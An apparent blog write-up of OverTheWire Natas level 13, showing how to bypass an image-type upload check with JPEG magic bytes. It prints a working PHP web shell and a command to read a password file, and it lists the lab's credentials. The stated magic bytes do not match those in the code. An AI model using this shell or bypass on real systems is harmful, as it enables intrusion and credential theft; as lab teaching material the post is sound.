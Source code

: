 ```yaml
---
layout: post
title:  "Natas Level 13 → Level 14"
date: 2017-07-05
author: "Harsh Chawla"
tags: Overthewire Natas
---
```

<pre><h3><b>Level 13
Username : natas13
Password : jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY
URL      : http://natas13.natas.labs.overthewire.org</b></h3></pre>
### Solution

To solve this level, we first log into the natas13 application using the credentials provided above.

The application looks very similar to the previous level, however, the application this time around is checking for the filetype with the **exif_imagetype** function. According to the PHP [manual](http://php.net/manual/en/function.exif-imagetype.php), the exif_imagetype function determines the type of an image by reading the first bytes of an image and checking its signature.

As the function relies on the first bytes of image and checking its signature, if we can create a file and use the same **magic numbers** that the function is expecting, we should be able to bypass the check. A quick Wikipedia [search](https://en.wikipedia.org/wiki/List_of_file_signatures) yields **0xFF 0xD8 0xFF 0xE8** as the magic. Therefore, we create a new php file with the magic numbers in the beginning. I used python to create the following shell file. Apart from the first 4 bytes, the rest of the file is exactly the same as before.

```bash
  >> shell=open('shell.php','w')
  >>> shell.write('\xFF\xD8\xFF\xE0' + '<?php $output = shell_exec($_GET["cmd"]); echo "<pre>$output</pre>"; ?>')
  >>> shell.close()
```

Once again, we upload this php file by intercepting the request in Burp and changing the name of the file with a .php extension. Navigate to the URL generated by the application and append **?cmd=cat%20/etc/natas_webpass/natas14** and the application prints the password for the next level.
<pre><h3><b>Level 14
Username : natas14
Password : Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1
URL      : http://natas14.natas.labs.overthewire.org</b></h3></pre>
